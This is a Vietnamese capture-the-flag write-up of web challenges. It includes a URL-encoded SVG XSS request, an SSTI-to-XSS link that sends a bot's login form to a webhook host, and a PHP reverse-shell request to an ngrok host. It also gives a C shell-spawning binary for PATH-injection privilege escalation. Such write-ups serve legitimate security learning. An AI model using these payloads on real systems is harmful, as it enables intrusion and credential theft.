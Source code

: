 ## [10] catch me if you can

view source code sẽ tìm ra flag 

## [20] Celeste Speedrunning Association
Score cao nhất là 0, thử đưa một số rất lớn vào sẽ khiến nó tràn số về số âm (có vẻ code bằng JAVA)
```
start=168261534697465165489498497498
```

```
you win the flag: actf{wait_until_farewell_speedrun}
```

## [40] shortcircuit
Hàm chunk sẽ split flag ra thành mảng 4 phần tử, mỗi phần tử 30 character long, sau đó dùng swap hoán đổi vị trí 4 phần tử này, gọi swap 2 lần trên mảng trên thì mảng sẽ về vị trí ban đầu, join lại ta sẽ có flag

```
swap(swap(chunk("7e08250c4aaa9ed206fd7c9e398e2}actf{cl1ent_s1de_sucks_544e67ef12024523398ee02fe7517fffa92516317199e454f4d2bdb04d9e419ccc7", 30))).join("")
```

```
actf{cl1ent_s1de_sucks_544e67e6317199e454f4d2bdb04d9e419ccc7f12024523398ee02fe7517fffa92517e08250c4aaa9ed206fd7c9e398e2}
```

## [40] directory
Flag nằm ở một trong số cái file đó, bruteforce đến file 3054 sẽ thấy flag

https://directory.web.actf.co/3054.html
```
actf{y0u_f0und_me_b51d0cde76739fa3}
```

## [40] Celeste Tunneling Association
Theo code ta chỉ cần đưa giá trị `flag.local` vào header Host là sẽ có flag

```
actf{reaching_the_core__chapter_8}
```

## [80] hallmark
Goal là XSS để lấy flag từ cookie của con bot, nhưng cách thông thường thì ta sẽ không thể lấy được content type `image/svg+xml` nhằm đưa một file svg chứa javascript vào

Tuy nhiên tại route PUT, ta có thể update card, với logic xử lý bên dưới ta có thể update để card trả về `image/svg+xml` bằng lỗi type confusion
```
cards[id].type = type == "image/svg+xml" ? type : "text/plain";
    cards[id].content = type === "image/svg+xml" ? IMAGES[svg || "heart"] : content;
```
Request:
```http 
PUT /card HTTP/1.1
Host: hallmark.web.actf.co
Content-Length: 1202
Cache-Control: max-age=0
Sec-Ch-Ua: "Not:A-Brand";v="99", "Chromium";v="112"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://hallmark.web.actf.co
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.50 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://hallmark.web.actf.co/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

svg=text&content=%3c%3f%78%6d%6c%20%76%65%72%73%69%6f%6e%3d%22%31%2e%30%22%20%73%74%61%6e%64%61%6c%6f%6e%65%3d%22%6e%6f%22%3f%3e%0a%3c%21%44%4f%43%54%59%50%45%20%73%76%67%20%50%55%42%4c%49%43%20%22%2d%2f%2f%57%33%43%2f%2f%44%54%44%20%53%56%47%20%31%2e%31%2f%2f%45%4e%22%20%22%68%74%74%70%3a%2f%2f%77%77%77%2e%77%33%2e%6f%72%67%2f%47%72%61%70%68%69%63%73%2f%53%56%47%2f%31%2e%31%2f%44%54%44%2f%73%76%67%31%31%2e%64%74%64%22%3e%0a%0a%3c%73%76%67%20%76%65%72%73%69%6f%6e%3d%22%31%2e%31%22%20%62%61%73%65%50%72%6f%66%69%6c%65%3d%22%66%75%6c%6c%22%20%78%6d%6c%6e%73%3d%22%68%74%74%70%3a%2f%2f%77%77%77%2e%77%33%2e%6f%72%67%2f%32%30%30%30%2f%73%76%67%22%3e%0a%20%20%3c%70%6f%6c%79%67%6f%6e%20%69%64%3d%22%74%72%69%61%6e%67%6c%65%22%20%70%6f%69%6e%74%73%3d%22%30%2c%30%20%30%2c%35%30%20%35%30%2c%30%22%20%66%69%6c%6c%3d%22%23%30%30%39%39%30%30%22%20%73%74%72%6f%6b%65%3d%22%23%30%30%34%34%30%30%22%2f%3e%0a%20%20%3c%73%63%72%69%70%74%20%74%79%70%65%3d%22%74%65%78%74%2f%6a%61%76%61%73%63%72%69%70%74%22%3e%0a%20%20%20%20%61%6c%65%72%74%28%22%58%53%53%20%62%79%20%42%48%41%52%41%54%22%29%3b%0a%20%20%3c%2f%73%63%72%69%70%74%3e%0a%3c%2f%73%76%67%3e&id=2c05d443-a964-44b6-8d9f-6b91bbfdb41b&type[]=image/svg%2bxml
```
Ta sẽ craft được một link thực thi được JS, gửi link này đến bot và lấy flag
https://hallmark.web.actf.co/card?id=2c05d443-a964-44b6-8d9f-6b91bbfdb41b

## [110] brokenlogin
Ứng dụng chạy flask, nhìn vào đoạn sau ta có thể thấy lỗi SSTI
```
render_template_string(indexPage % custom_message, fails=fails)
```
`custom_message` là data lấy từ `request.args["message"]`, được đưa trực tiếp vào `render_template_string`, nhưng vấn đề flag không nằm ở đây là flag nằm ở password của con bot, nên có vẻ đây vẫn là challenge client side

Mặc định thì template engine sẽ escape html của tất cả output, ta không thể chèn tag html gì, nhưng vì ta có thể dùng template markup, jinja (flask mặc định sài jinja) có một keyword là safe để đánh dấu là output này safe và không cần escape, ta có thể dùng keyword này để chèn HTML vào và từ đó lead tới XSS

Nhưng để ý nếu payload dài quá 25 ký tự nó sẽ không nối input vào `render_template_string` nữa nên ta sẽ dùng 1 trick nhỏ

`{{request.args.a|safe}}`

```
https://brokenlogin.web.actf.co/?message={{request.args.a|safe}}&a=%3Cscript%3Ealert(%27a%27)%3C/script%3E
```
Ta sẽ lấy input từ một parameter khác là `a` thì ta sẽ bypass qua được length restriction

Tiếp theo ta sẽ dùng JS để thay đổi `action` của form để khi con bot submit thì nó sẽ gửi đến url của ta 
```
https://brokenlogin.web.actf.co/?message={{request.args.a|safe}}&a=%3Cscript%3Edocument.body.onload%20=%20()%20=%3E%20document.getElementsByTagName(%27form%27)[0].action%20=%20%22https://webhook.site/68a40976-d351-4dde-a022-b23547e4cc1c%22%3C/script%3E
```
webhook:
```
username=admin&password=actf%7Badm1n_st1ll_c4nt_l0g1n_11dbb6af58965de9%7D
```

## [180] filestore
Cái upload file thật ra để đánh lạc hướng đó ae, bài này gồm 2 giai đoạn, giai đoạn from LFI to RCE và leo quyền để đọc flag.

Về LFI to RCE, đọc source ta sẽ thấy nếu có param `f` thì nó sẽ `include "./uploads/" . $_GET["f"];` => Path traversal, nhưng vấn đề là include cái gì đây, đọc file thì ok nhưng mà cũng không thể đọc flag, cái flag đã bị set permission để chỉ cho admin đọc, mình là user `ctf` không đọc được. Ta sẽ đến với PEAR, PEAR (PHP Extension and Application Repository) là một framework của PHP, liên tưởng nó giống như NPM bên NodeJS, nó hỗ trợ coder tái sử dụng các class có sẵn của PHP (xử lý cache, DB, ...) để tiết kiệm thời gian khi dev. Bản thân nó là một CLI program, nhưng nếu PHP config set `register_argc_argv` thì pear sẽ có thể nhận các REQUEST paramater thay cho CLI argument, và PEAR thì gần như luôn tích hợp sẵn trong PHP

http://man.he.net/man1/pecl

Như ta thấy với option `config-create`, ta có thể tạo ra một config file, với việc có thể truyền tham số cho program thông qua các parameter, ta có thể write được một con Shell lên server và từ đó RCE
```
config-create  Create a Default configuration file
```
Với điều kiện ta tìm được 1 thư mục mà ta có quyền write, cùng với đó là config `register_argc_argv` được set là true. Với PHP docker image thì config `register_argc_argv` luôn được set, và theo như file docker thì permission của folder `www` bị đổi, ta không có quyền write vào nó, ta sẽ dùng thư mục `tmp`, write shell vào đây rồi dùng path traversal include file PHP đó 
![](https://i.imgur.com/pkIRLQX.png)

![](https://i.imgur.com/KoaL5Qo.png)

Giờ dùng PHP để lấy reverse shell
```http
GET /?f=../../../../tmp/shin24.php&c=php+-r+'$sock=fsockopen("0.tcp.ap.ngrok.io",10968);$proc=proc_open("/bin/sh+-i",+array(0=>$sock,+1=>$sock,+2=>$sock),$pipes);' HTTP/1.1
Host: filestore.web.actf.co
Cache-Control: max-age=0
Sec-Ch-Ua: "Not:A-Brand";v="99", "Chromium";v="112"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.50 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close


```

Giờ ta cat flag thôi nhở

![](https://i.imgur.com/HAgt4Bh.png)

Làm gì dễ thế =))), đây là state 2, ta sẽ phải priv esc để đọc được flag, check owner thấy flag.txt là của admin, vậy ta phải nâng quyền mình lên admin, trong các file mà ta được đưa có 2 file SUID binary, lúc đầu thì mình cũng khá confuse, để đỡ dài dòng thì mình sẽ nói luôn là ta cần chú ý vào file `list_uploads`, đưa vào IDA và f5 lên ta sẽ thấy nó đang gọi đến binary `ls`
![](https://i.imgur.com/5L8QjUR.png)

Nhưng mà lưu ý là ở đây nó gọi đến ls, chứ không phải `/bin/ls`, vậy thì ta có thể dùng PATH injection, tạo một file tên `ls` ở một folder nào đó (`tmp` đi) rồi chạy lại SUID kia, file `ls` sẽ là một file để spawn shell. Nội dung file `ls` của mình (thật ra là của @Robbert1978 viết, pao thủ thế giới)
```c 
#define _GNU_SOURCE
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <sched.h>
#include <sys/mman.h>
#include <signal.h>
#include <sys/syscall.h>
#include <sys/ioctl.h>
#include <linux/userfaultfd.h>
#include <sys/wait.h>
#include <poll.h>
#include <unistd.h>
#include <stdlib.h>
#define log_info(...) { \
    printf("[*] "); \
    printf(__VA_ARGS__); \
    putchar(10); \
};

int main(){
    setuid(999);
    if(getuid()!=999){
        puts("chiu");
        exit(-1);
    }
    execve("/bin/sh",NULL,NULL);
}
```

Ở đây `999` là EUID của user admin

Đưa file này lên server và compile (hoặc compile rồi đưa lên server, nhớ là zip lại để không bị mất execute permission) rồi chạy file `list_uploads` ta sẽ spawn được shell với quyền admin, giờ thì cat flag thôi
